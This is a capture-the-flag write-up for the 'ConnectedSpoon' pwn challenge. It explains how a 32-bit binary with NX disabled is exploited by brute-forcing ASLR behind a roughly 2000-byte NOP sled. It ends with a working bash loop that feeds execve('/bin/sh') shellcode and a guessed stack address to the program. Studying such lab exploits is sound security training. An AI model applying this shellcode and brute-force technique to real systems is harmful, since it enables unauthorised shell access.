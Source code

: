```yaml
---
title: "InsHack -- ConnectedSpoon Writeup"
categories:
  - InsHack
tags:
  - CTF
  - pwn
---
```


> Mmmh my connected spoon has a strange behaviour, maybe a backdoor? Could you have a look?

<div class="notice--info">
<strong>Name</strong>: ConnectedSpoon<br>
<strong>Category</strong>: pwn<br>
<strong>Points</strong>: 150<br>
<strong>Solves</strong>: 42<br>
<strong>Given</strong>: <code>connected-spoon</code><br> <!-- Link the files here to my repository with it -->
</div>


## Checksec
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled       (<- we CAN use shelldode)
    PIE:      No PIE
    ASLR:     ENABLED           (<- we CANNOT realiably know where the stack is)

# Solution:
This is very similar to crazy-minitel, so I will assume you have read that writeup, and just focus on what's new: `ASLR`!<br>
One change from crazy-minitel is that we have a larger buffer, meaning we can have a bigger **nop sled**.<br><br>
With that in mind, lets just bruteforce ASLR. From running the program in gdb what I found that:
 - The first byte '`bf`' never changed. So thats **8 bits** we don't need to guess.
 - We have a NOP SLED of arround 2000 bytes, and, since `2^11 = 2048`, we can take get another free **11 bits**.
 - This leaves use with `32-8-11 = 13bits` to bruteforce. This would mean on average arround **8192 attempts** to guess correctly the stack value, which would certainly be doable, but I got a shell after only ~75 trys, which means either my math is wrong or I was just very lucky.

I launched this little script to bruteforce the ASLR, went to eat something, and when I got back I had a shell waiting for me. :)
```bash
while :
do
    ~/vuln $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'.rjust(1950, '\x90') + 'A'*(2012-1950) + '\xb0\xba\xad\xbf'")
done
```